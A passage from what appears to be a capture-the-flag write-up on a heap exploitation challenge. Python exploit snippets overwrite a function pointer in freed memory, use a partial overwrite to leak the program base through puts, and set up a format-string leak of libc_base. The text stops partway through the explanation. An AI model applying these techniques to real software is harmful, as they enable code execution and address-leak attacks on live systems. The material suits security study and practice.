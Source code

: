 ```python
create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
gdb_(1)
create(0x20, b'a'*0x10 + b'b'*0x08 + p64(0xdeadbeef))
```

![image-20220712220738138](https://cdn.ova.moe/img/image-20220712220738138.png)

As seen, our `freeShort` function has been successfully overwritten. Now, when executing `delete(1)`, it will execute the function at `0x00005571deadbeef` and use `ptr` itself as the parameter.

However, it's important to note that due to almost all protections being enabled, we currently cannot leak `libc_base`.

![checksec](https://cdn.ova.moe/img/image-20220712221051887.png)

By observing in `IDA`, it can be noticed that right after the two `free` calls, there is a `call _puts`. Considering the characteristic of `ASLR` not randomizing the lower 12 bits, by directly changing the last two bytes to `\x7c`, we can make the `free` operation execute `puts(ptr)`. Based on the information in the image, the result of `puts` should be `'a'*0x10+'b'*0x10+addr_of_call__puts`, then subtract `0x147C` to determine the base address of the program.

![IDA](https://cdn.ova.moe/img/image-20220712221215701.png)

```python
create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
create(0x20, b'a'*0x10 + b'b'*0x08 + b'\x7C' + b'\x00')
gdb_(1, 'b deleteStr')
delete(1)  # -> call _puts
```

The `puts(ptr)` is successfully executed, and the program's base address is calculated.

![image-20220712221540664](https://cdn.ova.moe/img/image-20220712221540664.png)

![image-20220712221653582](https://cdn.ova.moe/img/image-20220712221653582.png)

How do we leak `libc_base`? At this point, since we can execute at any address and the first parameter is controllable, we can use a *format string vulnerability* to output the address of a specific function and then find the `libc_base`.

I chose to use `printf` at `0x150E`. Note that I set `eax` to zero before executing `printf` to prevent a `test al, al` instruction at `printf+7` from not jumping if `al` is not zero, which would lead to an alignment issue with `movaps` at `printf+34`. The alignment cannot be fully controlled by us.

> One might try to realign the memory and then use `DynELF` to achieve alignment, but I saw in their write-up that they didn't succeed in reproducing it. Repeated `create` did not realign the memory.
